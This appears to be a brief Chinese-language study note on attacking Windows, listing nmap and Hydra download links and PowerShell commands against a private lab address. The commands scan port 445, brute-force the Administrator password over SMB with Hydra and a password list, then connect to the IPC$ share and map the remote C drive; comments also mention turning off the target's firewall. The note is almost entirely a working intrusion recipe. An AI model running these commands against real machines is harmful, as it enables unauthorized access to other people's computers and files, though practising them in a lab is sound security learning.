 <!-- 
title: 03-Windows入门
sort: 
--> 

## Windows

> 提权
>
> [nmap](https://nmap.org/dist/?C=M&O=D)
>
> [Hydra](https://github.com/maaaaz/thc-hydra-windows)

```powershell
# 查看445端口是否开放
nmap -O <addr>

# 开启SMB1支持
# 关闭防火墙
# 开启文件共享

# l 用户名 P 密码 ip 协议 
hydra -l Administrator -P passlist.txt 192.168.252.128 smb

# 连接
net use \\192.168.252.128\ipc$ 1234 /user:Administrator
# 映射
net use x: "\\192.168.252.128\本地磁盘 (C)"

```

